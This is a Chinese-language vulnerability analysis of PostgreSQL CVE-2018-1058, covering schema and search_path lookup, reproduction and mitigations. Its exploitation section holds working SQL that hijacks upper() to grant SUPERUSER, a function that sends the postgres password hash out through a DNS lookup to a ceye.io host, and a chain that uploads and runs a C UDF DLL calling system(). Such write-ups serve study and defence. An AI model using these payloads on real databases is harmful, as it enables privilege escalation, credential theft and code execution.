








## 1 漏洞描述

PostgreSQL 是一款关系型数据库。其 9.3 到 10 版本中存在一个逻辑错误，该漏洞可以攻击者“劫持”PostgreSQL 数据库的函数，从而使高权限用户在不知情的情况下，执行攻击者设定的恶意 SQL 语句。

<!-- more -->

## 2 漏洞影响



详细影响版本参考： [PostgreSQL CVE-2018-1058 Remote Code Execution Vulnerability](https://www.securityfocus.com/bid/103221)

## 3 漏洞成因

[PostgreSQL 7.3](https://www.postgresql.org/docs/current/static/release-7-3.html)版本引入了“[schemas](https://www.postgresql.org/docs/current/static/ddl-schemas.html)”，它允许用户在不同的命名空间中创建对象（例如表，函数等）。PostgreSQL 的 schema 即 namespace，在一个 DB 中，可以创建多个 schema，在 schema 中，可以创建对象。一个对象在一个 schema 中不允许重名，但是在多个 schema 中可以重名。



当用户创建数据库时，默认情况下，PostgreSQL 创建一个名为[public](https://www.postgresql.org/docs/current/static/ddl-schemas.html#DDL-SCHEMAS-PUBLIC)的模式，默认情况下，所有新对象（例如表，函数）都被创建。由于这种特性，一个如下查询语句：

```SQL
SELECT * FROM table_a;
```

就相当于：

```SQL
SELECT * FROM public.table_a;
```

在**不调整配置或访问控制设置**的情况下，**任何**可以连接到数据库的用户也可以在该数据库的`public`架构中创建对象。 PostgreSQL 管理员可以为用户授予和撤消权限，以便在特定模式中使用和/或创建对象。

模式允许用户使用命名空间对象，因此同一个数据库中的不同模式中可以存在同名的对象。 如果在不同模式中存在具有相同名称的对象，并且未指定特定模式/对象对（即`schema.object`），则 PostgreSQL 将根据`search_path`设置决定使用哪个对象。

`search_path`设置指定在查找对象时搜索模式的顺序。 `search_path`的默认值是`$user`，`public`其中\$user 是指所连接用户的名称（可以通过执行`SELECT SESSION_USER`来确定）。

例如，如果`SESSION_USER`是`Alice`并且存在以下表：

```SQL
CREATE TABLE alice.a AS SELECT 1::int AS id;
CREATE TABLE public.a AS SELECT 'a'::text AS id;
```

那么如果用户`Alice`执行这样的 SQL 语句：

```SQL
SELECT * FROM a;
```

那么结果将是：

```
id
----
 1
```

**无论`search_path`的内容如何**，PostgreSQL**都会搜索**系统目录模式`pg_catalog`，以查看其中是否有任何匹配的对象。`pg_catalog`的内容包括诸如内置函数和运算符等对象。 如果**没有**在`search_path`中指定`pg_catalog`，则 PostgreSQL 在查看任何其他模式之前将搜索`pg_catalog`中的对象。

概括函数查找顺序如下图：



## 4 漏洞复现及利用

### 4.1 利用思路

**CVE-2018-1058** 中描述的问题围绕默认的“`public`”模式以及 PostgreSQL 如何使用`search_path`设置。能够在不同模式下创建具有相同名称的对象，并结合 PostgreSQL 在**模式中搜索对象的方式**，为用户提供了**修改其他用户查询行为**的机会。 所以可以通过会在`public`模式中插入一个与内置函数同名的自定义函数来进行钓鱼，达到越权执行命令的目的。

### 4.2 漏洞环境

PostgreSQL: [Postgres 9.6.7.1 Win64](https://www.openscg.com/bigsql/oscg_archive_download/?file=packages/PostgreSQL-9.6.7-1-win64-bigsql.exe&user=${auth.authName})

安装完成后，执行`psql -U postgres`连接数据库，执行下列语句：

```SQL
CREATE DATABASE cve_test; # 创建数据库cve_test
CREATE USER skactor WITH PASSWORD 'skactor'; # 创建用户skactor
CREATE USER test WITH PASSWORD 'test'; # 创建用户test
GRANT ALL PRIVILEGES ON DATABASE cve_test to skactor; # 把cve_test的权限全都授予skactor
GRANT ALL PRIVILEGES ON DATABASE cve_test to test; # 把cve_test2的权限全都授予test
```

### 4.3 漏洞利用

#### 4.3.1 利用方式一

使用用户 skactor 登录:

```
psql -U skactor -d cve_test
```

依次执行下面语句:

```SQL
CREATE TABLE public.test AS SELECT 'CVE-2018-1058'::varchar AS contents;

CREATE OR REPLACE FUNCTION public.upper(character varying)
  RETURNS text AS
$BODY$ALTER ROLE skactor SUPERUSER;
SELECT pg_catalog.upper($1);
$BODY$
  LANGUAGE sql VOLATILE;
```

再切换到超级用户 postgres 登录 cve_test 数据库，执行下列语句：

```SQL
select upper(contents) from test;
```

此时再通过 pgAdmin3 查看普通用户 skactor 权限，发现其权限已经被提升：



正如之前原理分析中所述，在当前的 schema 下执行命令时，会优先使用参数类型相符的函数，我们创建的表的 contents 列是 varchar 类型，而 pg_logdata 中对应的系统函数的参数实为 text：

```
cve_test=# \df pg_catalog.upper
                        函数列表
  架构模式  | 名称  | 结果数据类型 | 参数数据类型 | 类型
------------+-------+--------------+--------------+------
 pg_catalog | upper | anyelement   | anyrange     | 常规
 pg_catalog | upper | text         | text         | 常规
(2 行记录)
```

而我们创建的自定义函数为：

```
cve_test=# \df public.upper
                          函数列表
 架构模式 | 名称  | 结果数据类型 |   参数数据类型    | 类型
----------+-------+--------------+-------------------+------
 public   | upper | text         | character varying | 常规
(1 行记录)
```

#### 4.3.2 利用方式二

使用 Ceye.io 进行 DNS 注入获取密码

```SQL
CREATE OR REPLACE FUNCTION public.upper(character varying) RETURNS text AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content) FROM ''\\\\'||query_result||E'.pv8gif.ceye.io\\foobar.txt''';
EXECUTE exec_cmd;
RETURN pg_catalog.upper($1);
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

这里有一个问题，就是如何避免注入后的报错，暂未想出更好的办法


#### 4.3.2 利用方式三

把如下的源码编译(udf.c)：

```C
#define BUILDING_DLL 1
#include <postgres.h>
#include <fmgr.h>
#include <stdlib.h>
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PGDLLIMPORT exec() {
	elog(INFO, "import success\n");
	system("echo 123 > D:\1.txt");
}
```

由于是在 Windows 环境下实验，所以我将其编译为了 dll 文件（注意：根据 Postgres 版本不同应选用不同的库）

需要从官网下载对应的 Zip 版，因为 zip 版才是用 VS 编译，有 lib 静态链接库

[Download PostgreSQL Binaries](https://www.enterprisedb.com/download-postgresql-binaries)

只需要选择对应版本即可，同时应注意应用位数


编译成功后，用如下 Python 脚本将其转为 Postgres 导入命令：

```Python
# coding;utf-8
import random
import base64
import binascii
id = random.randint(100000, 999999)
start = "INSERT INTO pg_largeobject VALUES (" + str(id) + ", %d, decode('"
end = "', 'base64'));"

if __name__ == '__main__':
    o = open('o.txt', 'w')
    with open('64.dll', 'rb') as fp:
        o.write('SELECT lo_create(%d);\n' % id)
        data = fp.read()
        for i in range(0,len(data),2048):
            o.write(start % (i / 2048) + '\n' + base64.b64encode( data[i:i+2048]).decode() + '\n' + end + '\n')
        o.write("SELECT lo_export(%d, 'E:\\test.dll');\nSELECT lo_unlink(%d);\n" % (id, id))

```

生成的语句如下：（PostgreSQL 9.6.7, 64 位）

```SQL
SELECT lo_create(623879);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('TVqQAA......IPEIF8=', 'base64'));
...
...
INSERT INTO pg_largeobject VALUES (12345, 0, decode('MqLfLZ......AAAAA=', 'base64'));
SELECT lo_export(623879, 'E:\test.dll');
SELECT lo_unlink(623879);
```

这里我对以前的利用方法进行了一些订正，就是使用 base64 解码，而不是流传甚广的 hex 解码，因为如果程序最后是 0000...结尾，会报错

```SQL
cve_test=# INSERT INTO pg_largeobject VALUES (433890, 5, decode('
cve_test'# 00000
cve_test'# ', 'hex'));
ERROR:  invalid hexadecimal digit: "
"
```

这时候查看 E 盘已经有一个 test.dll，执行以下语句进行测试

```SQL
CREATE OR REPLACE FUNCTION exec() RETURNS VOID AS  'E:\test.dll', 'exec' LANGUAGE C STRICT;
select exec();
```

结果应该是如下图所示：



结合创建本次分析的 CVE-2018-1058，可以使用如下语句实现自动化利用

```SQL
CREATE OR REPLACE FUNCTION public.upper(character varying) RETURNS text AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
PERFORM lo_create(623879);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('TVqQAA......IPEIF8=', 'base64'));
...
...
INSERT INTO pg_largeobject VALUES (12345, 0, decode('MqLfLZ......AAAAA=', 'base64'));
PERFORM lo_export(623879, 'E:\test.dll');
PERFORM lo_unlink(623879);
CREATE OR REPLACE FUNCTION exec() RETURNS VOID AS  'E:\test.dll', 'exec' LANGUAGE C STRICT;
PERFORM exec();
RETURN pg_catalog.upper($1);
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

然后再调用`select public.upper('whoami');`

```
cve_test=# select public.upper('whoami');
INFO:  import success

 upper
--------
 WHOAMI
(1 行记录)
```

## 5 漏洞修补与防护

有几种防护 CVE-2018-1058 的方案

### 5.1 不允许用户在公共架构中创建新对象

作为超级用户，请在**所有**数据库中运行以下命令：

```SQL
REVOKE CREATE ON SCHEMA public FROM PUBLIC;
```

在执行完上述语句后再度尝试用`skactor`用户创建自定义函数：

```
cve_test=> CREATE OR REPLACE FUNCTION public.upper(character varying)
cve_test->   RETURNS text AS
cve_test-> $BODY$ALTER ROLE skactor SUPERUSER;
cve_test$> SELECT pg_catalog.upper($1);
cve_test$> $BODY$
cve_test->   LANGUAGE sql VOLATILE
cve_test->   COST 100;
ERROR:  permission denied for schema public
```

可以看到，问题被避免

### 5.2 为数据库用户设置默认的 search_path

超级用户可以向系统上的每个用户执行以下命令，以从用户的默认`search_path`中删除`public`模式：

```SQL
ALTER ROLE username SET search_path = "$user";
```

上面的命令保留了 PostgreSQL 提供的默认`search_path`，即如果有一个与`SESSION_USER`同名的模式，那么 PostgreSQL 将首先在`SESSION_USER`模式中查找对象。

在对 postgres 用户执行过这条命令后，再执行之前的测试语句





可以看到用户权限未被修改，说明防护成功。

### 5.3 在 PostgreSQL 配置文件（postgresql.conf）中设置默认的 search_path

与之前的策略类似，管理员可以从 postgresql.conf 配置文件的`search_path`设置中删除公共模式。

具有`CREATEROLE`或`CREATEDB`权限的用户或者是数据库所有者的用户可以为其他用户更改`search_path`，也可以在数据库的公共架构中创建对象。 如果是这种情况，那么请使用上述“不允许用户在公共架构中创建新对象”策略来保护系统免受**CVE-2018-1058**的攻击。

### 5.4 应用程序防护

上述方案都是在你有管理员权限时的解决方案，但是如果你只是个普通用户，可以通过下面的方式避免被劫持

使用“`SET search_path = ...`”和“`SELECT pg_catalog.set_config (...)`“不容易受到这种劫持，所以可以用作 Session 的第一个命令。

应用程序的主要防御是“`SELECT pg_catalog.set_config('search_path'，''，false)`”，数据库的主要防御是“`REVOKE CREATE ON SCHEMA public FROM PUBLIC`”。 任何一个都足以防止攻击。 在 REVOKE 之后，考虑审核名为 pg_catalog 对象的对象的`public`模式。

## 6 扩展信息

记录一些在研究中收集到的其他相关信息

### 6.1 不受 search_path 设置和模式权限影响的命令

| 1             | 2              | 3           | 4          | 5                 | 6             |
| ------------- | -------------- | ----------- | ---------- | ----------------- | ------------- |
| clusterdb     | createdb       | createlang  | createuser | dropdb            | droplang      |
| dropuser      | ecpg           | initdb      | oid2name   | pg_archivecleanup | pg_basebackup |
| pg_config     | pg_controldata | pg_ctl      | pg_dump    | pg_dumpall        | pg_isready    |
| pg_receivewal | pg_recvlogical | pg_resetwal | pg_restore | pg_rewind         | pg_standby    |
| pg_test_fsync | pg_test_timing | pg_upgrade  | pg_waldump | reindexdb         | vacuumdb      |
| vacuumlo      |                |             |            |                   |

### 6.2 PostgreSQL 中类似的陷阱

1、函数陷阱

[《PostgreSQL 安全陷阱 - 利用触发器或规则，结合 security invoker 函数制造反噬陷阱》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201509/20150929_01.md)

[《PostgreSQL function's SECURITY DEFINER | INVOKER, SET configuration_parameter { TO value | = value | FROM CURRENT }》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201507/20150717_01.md)

2、杀进程陷阱

[《PostgreSQL cancel 通信协议、信号和代码》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201509/20150929_02.md)

[《PostgreSQL cancel 安全漏洞》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201509/20150925_01.md)

3、连接陷阱

[《PostgreSQL 连接攻击（类似 DDoS）》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201706/20170629_02.md)

4、视图陷阱

[《PostgreSQL views privilege attack and security with security_barrier(视图攻击)》](https://github.com/digoal/blog/blob/476af9dacbbc270a23992d8db572d1be9f7f9cae/201307/20130710_01.md)

5、事件触发器陷阱

6、触发器陷阱

7、规则陷阱

8、目前 scheam OWNER 可以删除任何人在它的 schema 中创建的 object。存在一定风险。

### 6.3 PostgreSQL 函数三态

#### 6.3.1 VOLATILE

volatile 函数没有限制, 可以修改数据(如执行 delete, insert , update).

使用同样的参数调用可能返回不同的值.

volatile 函数不能被优化器选择作为优化条件.(例如减少调用, 函数索引, 索引扫描不允许使用 volatile 函数)

#### 6.3.2 STABLE

stable 和 immutable 函数, 函数内不允许修改数据.(如 PGver>=8.0 函数内不可执行非 SELECT|PERFORM 语句.)
使用同样的参数调用返回同样的结果, 在事务中有这个特性的也归属 stable.

优化器可根据实际场景优化 stable 函数的调用次数, 同样的参数多次调用可减少成单次调用.

stable 和 immutable 函数可用于优化器选择合适的索引扫描, 因为索引扫描仅评估被比较的表达式一次, 后多次与索引值进行比较.

stable 和 volatile 函数都不能用于创建函数索引, 只有 immutable 函数可以用于创建函数索引.

#### 6.3.3 IMMUTABLE

不允许修改数据, 使用同样的参数调用返回同样的结果.

详情参考：[PostgreSQL: Documentation: 9.6: Function Volatility Categories](https://www.postgresql.org/docs/9.6/static/xfunc-volatility.html)

### 6.4 Postgresql 字符转义

大部分的数据库以及编程语言中字符转义都是使用反斜杠"\", 在 postgresql ９之前的版本中，也是支持反斜杠转义的，postgresql9 之前支持 C 语言风格的字符逃逸（转义）

现在的 postgresql 基本上都是 postgresql9 之后的版本，反斜杠已经变成了普通字符．当然，如果你需要使用反斜杠转义可以在需要转义的字符串前面加上 E（E 就是 Escape）

## 7 参考

- [PostgreSQL 10.3, 9.6.8, 9.5.12, 9.4.17, and 9.3.22 released!](https://www.postgresql.org/about/news/1834/)
- [A Guide to CVE-2018-1058: Protect Your Search Path](https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path)
- [Document security implications of search_path and the public schema.](https://git.postgresql.org/gitweb/?p=postgresql.git;a=commit;h=5770172cb0c9df9e6ce27c507b449557e5b45124)
- [PostgreSQL CVE-2018-1058 Remote Code Execution Vulnerability](http://www.securityfocus.com/bid/103221)
- [POSTGRESQL 设计缺陷 CVE-2018-1058 漏洞分析](http://lonelyrain.me/2018/03/07/CVE-2018-1058/)
- [PostgreSQL CVE-2018-1058(search_path) - 暨数据库的那些陷阱与攻防指南](https://github.com/digoal/blog/blob/master/201803/20180302_02.md)
- [PostgreSQL 远程代码执行漏洞分析及利用—【CVE-2018-1058】](https://xz.aliyun.com/t/2109)
- [postgresql 字符转义](https://blog.csdn.net/hatofdragon/article/details/54601121)
- [Hacking PostgreSQL](https://ricterz.me/posts/Hacking%20PostgreSQL)
